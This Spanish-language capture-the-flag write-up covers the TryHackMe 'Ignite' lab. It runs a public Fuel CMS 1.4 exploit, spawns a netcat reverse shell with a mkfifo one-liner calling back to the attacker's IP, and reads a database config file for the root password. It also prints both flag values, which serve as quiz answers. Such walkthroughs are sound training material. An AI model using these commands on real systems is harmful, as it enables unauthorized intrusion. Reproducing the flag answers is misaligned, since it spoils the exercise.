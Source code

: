 # Máquina Ignite

Dificultad --> Medio-Dificil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Ignite**


'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

![image](https://github.com/user-attachments/assets/081f2f9e-45ca-4253-8d19-74e8de00e419)


## 1.Reconocmiento

Escaneando puertos y sus versiones utilizando el comando de nmap con diferentes parámetros


![image](https://github.com/user-attachments/assets/c724e1c0-bc4e-4d8e-94b8-73d42dc71cf5)


nmap -sV -sC -T4 10.10.129.220


![image](https://github.com/user-attachments/assets/91a34ad4-87a1-4b51-bb30-dc56b2223575)


![image](https://github.com/user-attachments/assets/c8c1c7b0-af8f-4342-a9d1-26461ad482c2)



### Resumen de la Información Obtenida

|IP               | Sistema OPerativo | Puertos/Servicios           | 
|:--------------: |:-----------------:| :--------------------------:| 
| 10.10.129.220   |Linux- Ubuntu      | 80 http Apache httpd 2.4.18 |


## 2. Análisis de Vulnerabilidades / Debilidades 🔍

Buscamos en nuestra máquina si tenemos un exploit para fuel cms version 1.4


![image](https://github.com/user-attachments/assets/6c14076d-899a-43e8-866b-b77691c223ef)

Buscamos la ruta completa del exploit

    /usr/share/exploitdb/exploits/php/webapps/50477.py

![image](https://github.com/user-attachments/assets/5a09abd7-11cc-4330-aef4-833e38bfe4f2)


Copiamos el exploit en nuestra carpeta de trabajo y lo nombramos fuelcmsexploit.py


![image](https://github.com/user-attachments/assets/03c96bdb-d8a6-42d2-bdc7-acc1e61e210d)


## 3. Explotación 💥

Lo ejecutamos para que nos indique la sintaxis correcta de usarlo


![image](https://github.com/user-attachments/assets/94f652b9-5a4e-4524-ab61-41f5f22e4452)

lo ejecutamos y logramos conectarnos

    python fuelcmsexploit.py -u http://10.10.129.220/


![image](https://github.com/user-attachments/assets/ad271747-8c7e-425b-9f8f-0003976e7370)


Ahora vamos a buscar la manera de conectarnos a través de una reverse shell

![image](https://github.com/user-attachments/assets/b8bc7562-6e15-4f23-8276-5e4f8a628246)


Activamos el netcat en nuestra máquina y procedemos a ejecutar el siguiente comando en la máquina victima

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.86.141 9001 >/tmp/f


![image](https://github.com/user-attachments/assets/bd030730-03df-40b0-b117-c498b89a8ea7)


Ahora ejecutamos el siguiente comando para tener una shell mas interactiva 

    python -c 'import pty; pty.spawn("/bin/bash")’

Nos vamos al directorio del usuario www-data y ahí encontraremos la bandera flag.txt 🚩

6470e394cbf6dab6a91682cc8585059b

![image](https://github.com/user-attachments/assets/aa63e3ec-a1b4-4b97-9e9a-7d215b65f5d5)


## 4. Escalación de privilegios 🧗

Ahora vamos a buscar escalar privilegios, cuando exploramos la pagina conseguimos la ruta de un archivo para la configuración de una base de datos


![image](https://github.com/user-attachments/assets/27b2748a-2bb5-4483-8fc4-9abcb5887931)


Nos iremos moviendo dentro de diferentes directorios hasta llegar donde se encuentra el archivo database.php

![image](https://github.com/user-attachments/assets/9edd09c2-fbd6-4239-afaa-ffa84fffc769)


Ejecutamos el siguiente comando y encontraremos la contraseña del usuario root

    cat database.php

![image](https://github.com/user-attachments/assets/615c8834-be84-45f2-8055-b8c4aa0e3468)


Procedemos a escalar privilegios como usuario root

![image](https://github.com/user-attachments/assets/42696599-144b-4927-b112-6d6ec8fbfb40)


Nos dirigimos a la carpeta root en búsqueda de la segunda bandera

b9bbcb33e11b80be759c4e844862482d


![image](https://github.com/user-attachments/assets/e4b3133b-2a44-406f-ae7e-3e0ff1838575)


## 5.Banderas 🏁

|user.txt | 6470e394cbf6dab6a91682cc8585059b |
|:-------:|:--------------------------------:|
|root.txt | b9bbcb33e11b80be759c4e844862482d |



## 6.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 

- user.txt

6470e394cbf6dab6a91682cc8585059b

- root.txt

b9bbcb33e11b80be759c4e844862482d



































































































































